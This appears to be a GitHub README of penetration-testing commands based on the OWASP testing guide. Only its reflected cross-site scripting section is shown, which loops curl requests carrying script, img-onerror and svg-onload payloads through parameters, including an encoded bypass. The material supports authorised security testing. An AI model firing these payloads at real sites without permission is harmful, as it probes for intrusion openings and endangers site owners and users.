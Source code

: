 # OWASP Web Security Testing Guide (WSTG) - Data Validation Testing (Part 1)

This repository contains a collection of web application penetration testing techniques and commands based on the OWASP Web Security Testing Guide. The focus is on practical commands that can be used during penetration testing engagements.

## Table of Contents (Part 1)

1. [WSTG-INPV-01: Testing for Reflected Cross Site Scripting](#wstg-inpv-01-testing-for-reflected-cross-site-scripting)
2. [WSTG-INPV-02: Testing for Stored Cross Site Scripting](#wstg-inpv-02-testing-for-stored-cross-site-scripting)
3. [WSTG-INPV-03: Testing for HTTP Verb Tampering](#wstg-inpv-03-testing-for-http-verb-tampering)
4. [WSTG-INPV-04: Testing for HTTP Parameter Pollution](#wstg-inpv-04-testing-for-http-parameter-pollution)
5. [WSTG-INPV-05: Testing for SQL Injection](#wstg-inpv-05-testing-for-sql-injection)
6. [WSTG-INPV-06: Testing for LDAP Injection](#wstg-inpv-06-testing-for-ldap-injection)
7. [WSTG-INPV-07: Testing for XML Injection](#wstg-inpv-07-testing-for-xml-injection)
8. [WSTG-INPV-08: Testing for SSI Injection](#wstg-inpv-08-testing-for-ssi-injection)
9. [WSTG-INPV-09: Testing for XPath Injection](#wstg-inpv-09-testing-for-xpath-injection)
10. [WSTG-INPV-10: Testing for IMAP SMTP Injection](#wstg-inpv-10-testing-for-imap-smtp-injection)

## WSTG-INPV-01: Testing for Reflected Cross Site Scripting

**Objective**: Identify variables that are reflected in responses and assess the input they accept and the encoding that gets applied on return.

### Commands

```bash
# Test for basic XSS reflection
curl -s "https://example.com/search?q=<script>alert(1)</script>" | grep -i "<script>alert(1)</script>"

# Test with different XSS vectors
for payload in "<script>alert(1)</script>" "<img src=x onerror=alert(1)>" "<svg onload=alert(1)>" "<body onload=alert(1)>"; do
  curl -s "https://example.com/search?q=$payload" | grep -i "$payload"
done

# Test for XSS in different parameters
for param in "q" "search" "id" "page" "query"; do
  curl -s "https://example.com/search?$param=<script>alert(1)</script>" | grep -i "<script>"
done

# Test for XSS with encoding bypass
curl -s "https://example.com/search?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E" | grep -i "<script>"

# Use XSS scanner tools (command-line representation)
python3 xsshunter.py -u "https://example.com/search?q=FUZZ"
```
